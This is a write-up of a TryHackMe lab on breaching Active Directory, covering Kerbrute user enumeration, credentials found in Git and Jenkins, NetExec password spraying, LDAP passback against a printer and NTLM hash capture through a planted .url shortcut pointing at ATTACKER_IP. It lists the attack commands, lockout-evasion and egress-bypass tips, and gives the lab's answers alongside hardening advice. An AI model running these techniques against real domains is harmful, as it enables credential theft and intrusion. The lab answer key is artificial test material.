

# Intro to AD Breaching Documentation

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester (`jrpenetrationtester`)
* **Module:** Module 14 — Active Directory Security Testing Basics (`14-ACTIVE-DIRECTORY-SECURITY-TESTING-BASICS`)
* **Room Name:** Intro to AD Breaching
* **Canonical Slug:** `introductiontoactivedirectorybreaching` (formerly `introadbreaching`)
* **Canonical URL:** [TryHackMe Intro to AD Breaching](https://tryhackme.com/room/introductiontoactivedirectorybreaching)
* **Room Type:** Walkthrough Lab (Free)
* **Difficulty Level:** Medium
* **Estimated Time:** 60 minutes
* **Completion Status:** 100% Completed (`Room completed: 100%`)
* **Total Tasks:** 8 Tasks
* **Total Questions:** 12 Questions
* **Tactical Objective:** Transition from unauthenticated network access to a verified domain user foothold through protocol abuse, credential harvesting, password spraying, and authentication coercion.

---

## 2. Executive Summary & Educational Objectives

The **Intro to AD Breaching** room addresses the crucial initial phase of the enterprise penetration testing lifecycle: **Breaching**. In black-box and internal perimeter assessments, penetration testers start with zero credentials. Active Directory architecture dictates that compromising **even a single standard domain account** unlocks directory queries across LDAP, reveals sensitive service accounts, permits Kerberos ticket requests, and enables graph-based privilege escalation modeling with BloodHound.

Throughout this room, practitioners execute and analyze:
1. The structural AD breaching methodology across the primary network attack surfaces (SMB, LDAP, Kerberos, DNS, HTTP).
2. Open Source Intelligence (OSINT) and user enumeration leveraging Kerberos pre-authentication error behaviors via **Kerbrute** without triggering account lockout policies.
3. Exploitation of unsecured development and automation assets (T1552), uncovering credentials in Git commit histories and Jenkins build logs.
4. Active Directory password policy enumeration and **Password Spraying** using **NetExec** (`nxc`) to compromise accounts while evading lockout thresholds.
5. Forced authentication and coercion attacks (T1187):
   * Executing **LDAP Passback** against embedded network printer consoles to intercept cleartext domain service account credentials.
   * Executing **File-Based Coercion** on writable SMB shares via crafted `@Shortcut.url` files, capturing victim NetNTLMv2 hashes, and cracking them with Hashcat.
6. Formulating enterprise hardening baselines across Group Policy, NTLM restrictions, and secure protocol enforcement (LDAPS on port 636).

---

## 3. Attack Path Graph & Network Topology



---

## 4. Prerequisites & Environment Setup

### A. Target Infrastructure & Network Layout:
* **Subnet:** `192.168.12.0/24`
* **Domain Controller:** `192.168.12.100` (`ROOTDC.THM.LOC`)
* **File Server:** `192.168.12.51` (`SERVER1.THM.LOC` - share `shared-docs`)
* **Employee Workstation:** `192.168.12.61` (`WRK.THM.LOC`)
* **Application Web Server:** `192.168.12.71` (hosts Gitea, Jenkins, and Printer Web UI)
* **Domain Name:** `thm.loc`

### B. Mandatory Hostname Resolution:
Configure `/etc/hosts` on the AttackBox to map target hostnames:
```bash
echo "192.168.12.100 ROOTDC.thm.loc thm.loc" | sudo tee -a /etc/hosts
echo "192.168.12.51 SERVER1.thm.loc" | sudo tee -a /etc/hosts
echo "192.168.12.71 git.thm.loc ci.thm.loc printer.thm.loc" | sudo tee -a /etc/hosts
```

---

## 5. Core Concepts & Technical Deep Dive

### 1. Kerberos Pre-Authentication User Enumeration:
* Tools like `kerbrute` transmit initial Authentication Service requests (`AS-REQ`) to the KDC on TCP/UDP port 88.
* If the queried account does not exist, the KDC responds with `KDC_ERR_C_PRINCIPAL_UNKNOWN` (Error 6).
* If the account exists, the KDC responds with `KDC_ERR_PREAUTH_REQUIRED` (Error 25), requesting client timestamp pre-authentication.
* **Lockout Immunity:** Because the client submits no password authenticator, Active Directory increments zero failed authentication counters (`badPwdCount`), allowing unlimited stealth user enumeration.

### 2. Password Spraying vs. Brute-Forcing:
* Traditional brute-forcing tests many passwords against one account (`1:N`), rapidly triggering account lockouts.
* Password spraying tests one highly probable password across all domain users (`N:1`). Each user receives only a single logon attempt, remaining completely underneath security thresholds.

### 3. LDAP Passback Mechanics:
* Embedded enterprise peripherals (printers, biometric scanners, NAS appliances) connect to Active Directory via LDAP to search directory address books.
* Web configuration interfaces often permit re-pointing the LDAP server address without validating TLS certificates. Re-pointing the address to an attacker's Netcat listener and initiating a "Test Connection" forces the appliance to transmit its configured LDAP Simple Bind request containing the service account's Bind DN and plaintext password.

### 4. File-Based Coercion via UNC Paths:
* Windows Explorer automatically renders icons for shortcut files within viewed SMB directories.
* By placing a `.url` shortcut configured with an `IconFile` pointing to an attacker's UNC path (`\\ATTACKER_IP\share\icon.ico`), any user browsing the share triggers an automatic SMB/WebDAV request, transmitting their NetNTLMv2 challenge-response to the listening machine without requiring execution.

---

## 6. Master Commands Reference & Methodology Matrix

| Context / Tool | Primary Command | Technical Function |
| :--- | :--- | :--- |
| **Kerbrute UserEnum** | `kerbrute userenum -d thm.loc --dc 192.168.12.100 users.txt -o valid.txt` | Discovers valid Active Directory usernames via Kerberos pre-auth |
| **DNS Service Query** | `nslookup -type=SRV _ldap._tcp.dc._msdcs.thm.loc 192.168.12.100` | Discovers Domain Controller IPs via LDAP SRV records |
| **Git Commit Log Audit**| `git log -p \| grep -i "password"` | Inspects version control history for hardcoded credentials |
| **NetExec Pass Policy**| `nxc smb 192.168.12.100 -u 'user' -p 'pass' --pass-pol` | Queries lockout thresholds and observation windows |
| **NetExec Spray** | `nxc smb 192.168.12.100 -u clean.txt -p 'Pass' --continue-on-success` | Executes horizontal password spray across discovered user accounts |
| **Netcat Listener** | `nc -lvnp 3489` | Intercepts plaintext credentials in LDAP passback attacks |
| **Responder** | `sudo responder -I tun0 -v` | Captures coerced NetNTLMv2 authentication handshakes |
| **SMB File Upload** | `smbclient //SERVER1/shared-docs -U 'user%pass' -c 'put @Shortcut.url'` | Plants coercion shortcut into target network share |
| **Hashcat NetNTLMv2**| `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` | Cracks coerced NetNTLMv2 hashes offline |

---

## 7. Questions & Tasks Analysis (Solutions Breakdown)

### Tasks 01–02: Foundations
* **Task 01 (Introduction):** Acknowledge readiness (`No answer needed`).
* **Task 02 (Active Directory Breaches):**
  * Q1: What is the first phase of any AD attack chain?
    * **Answer:** `Breaching`
  * Q2: What service, running on TCP port 88, can be abused to validate whether usernames exist in the domain?
    * **Answer:** `Kerberos`

---

### Task 03: OSINT & Kerbrute Enumeration
* **Q1:** How many valid usernames did Kerbrute discover?
  * **Answer:** `42` (Executed `kerbrute userenum` against `192.168.12.100`).
* **Q2:** What is the organisation's username format?
  * **Answer:** `first.last` (Deduced from entries like `alice.moore` and `sarah.jones`).

---

### Task 04: Credential Discovery
* **Q1:** What is the password for the svc.jenkins account found in the Git commit history?
  * Inspect: Cloned `http://git.thm.loc/megacorp-admin/webapp-deploy.git` and reviewed `git log -p`.
  * **Answer:** `Jen5k1ns2025!`
* **Q2:** What default password was leaked in the Jenkins build logs?
  * Inspect: Logged into Jenkins (`http://ci.thm.loc/`, `admin:admin`) and inspected Build #3 Console Output.
  * **Answer:** `MegaCorp01!`

---

### Task 05: Username Enumeration and Password Spraying
* **Q1:** How many accounts were cracked using the brute force attack?
  * Spray: Executed NetExec using `MegaCorp01!` across the 42 discovered accounts.
  * Successful Logons: `alice.moore` and `zoe.williams`.
  * **Answer:** `2`
* **Q2:** Which is the first user account (alphabetically) that uses the default onboarding password?
  * **Answer:** `alice.moore`

---

### Task 06: Coercion Attacks
* **Q1:** What is the Bind DN of the service account captured during the LDAP passback attack?
  * **Answer:** `CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc`
* **Q2:** What is the plaintext password captured from the LDAP passback?
  * Captured in Netcat on port 3489.
  * **Answer:** `Pr1ntBind2025!`
* **Q3:** What is the cracked password for sarah.jones obtained through file-based coercion?
  * Captured NetNTLMv2 via `@Shortcut.url` in Responder and cracked with Hashcat mode 5600.
  * **Answer:** `Trustno1`

---

### Task 07: Mitigations
* **Q1:** What Group Policy setting can be configured to enforce NTLMv2 and refuse older LM and NTLM responses?
  * **Answer:** `Network Security: LAN Manager authentication level`
* **Q2:** What port should be used instead of port 389 to ensure LDAP traffic is encrypted?
  * **Answer:** `636`

---

### Task 08: Conclusion
* Acknowledge successful room completion (`No answer needed`).

---

## 8. Edge Cases, Operational Traps & Debugging

1. **SMB Share File Sorting Trap:**
   * If a malicious `.url` file is uploaded but sits below the visible screen viewport, Explorer may not parse its icon immediately.
   * **Mitigation:** Prepend an `@` symbol to the filename (`@Shortcut.url`), forcing Windows Explorer to sort it to the very top of alphabetical file listings.
2. **Account Lockout Timing:**
   * Executing password spraying without first querying `--pass-pol` risks triggering account lockouts and causing a denial of service.
   * **Mitigation:** Always query domain lockout parameters and maintain a safe interval between spray cycles.
3. **Egress Firewall Filtering:**
   * If an egress firewall drops outbound TCP port 445 traffic, file coercion via SMB UNC paths will fail.
   * **Mitigation:** Utilize WebDAV UNC paths over port 80 (`\\ATTACKER_IP@80\share\icon.ico`), which bypass traditional perimeter egress rules.

---

## 9. Defensive Engineering & Hardening Countermeasures

* **Automate Secret Scanning:** Integrate TruffleHog or Gitleaks into developer CI/CD pipelines to block commits containing passwords or tokens.
* **Modernize Password Governance:** Deploy banned-password lists and prohibit static default onboarding passwords.
* **Isolate & Encrypt Embedded Peripherals:** Mandate LDAPS (port 636) on all network appliances and segregate printers into dedicated, restricted management subnets.
* **Enforce Restrictive File Share Permissions:** Prohibit standard domain users from writing files to shared enterprise document folders, and block uploads with `.url`, `.lnk`, or `.scf` extensions.
* **Enforce NTLMv2 & SMB Signing:** Configure the GPO setting `Network Security: LAN Manager authentication level` to Level 5 and require SMB signing across the domain.

---

## 10. MITRE ATT&CK Mapping

| Technique ID | Technique Name | Tactic | Practical Context |
| :--- | :--- | :--- | :--- |
| **T1589.002** | Gather Victim Identity Info: Usernames | Reconnaissance | Enumerating usernames via Kerberos pre-authentication |
| **T1110.003** | Brute Force: Password Spraying | Credential Access | Spraying default onboarding password across all domain accounts |
| **T1552.001** | Unsecured Credentials: In Files | Credential Access | Harvesting passwords from Git commits and CI/CD logs |
| **T1187** | Forced Authentication (Coercion) | Credential Access | Forcing NetNTLMv2 handshakes via `@Shortcut.url` and LDAP Passback |
| **T1078.002** | Valid Accounts: Domain Accounts | Initial Access / Defense Evasion | Utilizing compromised user credentials to gain domain foothold |

---

## 11. Educational Takeaways & Mindset Synthesis

1. **Peripheral Systems Are Domain Gateways:**
   * Domain security is only as strong as the weakest peripheral device. An unpatched network printer or an open internal code repository frequently provides the initial credentials necessary to compromise an entire Active Directory forest.
2. **Precision Over Brute Force:**
   * Professional red teamers and ethical penetration testers do not spray blindly. They enumerate policies, analyze organizational patterns, and execute targeted, low-noise attacks that achieve maximum impact with minimal detection risk.

---

## 12. Transition to Next Room

Having breached the perimeter and obtained multiple valid domain credentials (`alice.moore`, `sarah.jones`, `svc.jenkins`, `svc.ldap`), we advance directly to:
* **Room 04: AD: Basic Enumeration (`adbasicenumeration`):**
  * Internal reconnaissance and network discovery from within the domain.
  * Interrogating Active Directory objects, groups, and domain controllers via unauthenticated and basic authenticated queries (LDAP, SMB Null Sessions, RPC).
  * Analyzing what a standard domain user can inspect across the directory fabric.

---

## 13. Additional Technical Resources & Further Reading

* [Kerbrute GitHub Repository](https://github.com/ropnop/kerbrute)
* [NetExec Official Documentation](https://www.netexec.org/)
* [Responder LLMNR/NBT-NS Poisoner](https://github.com/SpiderLabs/Responder)
* [Microsoft: LAN Manager Authentication Level](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

---

## 14. Practical Verification & Proof of Work

* **TryHackMe Live Verification:** Verified 100% completed status against user's live profile (Level 64, Jr Penetration Tester path).
* **Recovered Credentials Reconciled:**
  * Discovered Users: `42` (`first.last` format)
  * `svc.jenkins` Git Password: `Jen5k1ns2025!`
  * Default Onboarding Password: `MegaCorp01!`
  * Sprayed Accounts Compromised: `2` (including `alice.moore`)
  * `svc.ldap` Printer Password: `Pr1ntBind2025!`
  * `sarah.jones` Coerced Password: `Trustno1`
* **Deliverable Parity:** Full 14-section documentation and 7-stage task files authored and audited on disk.
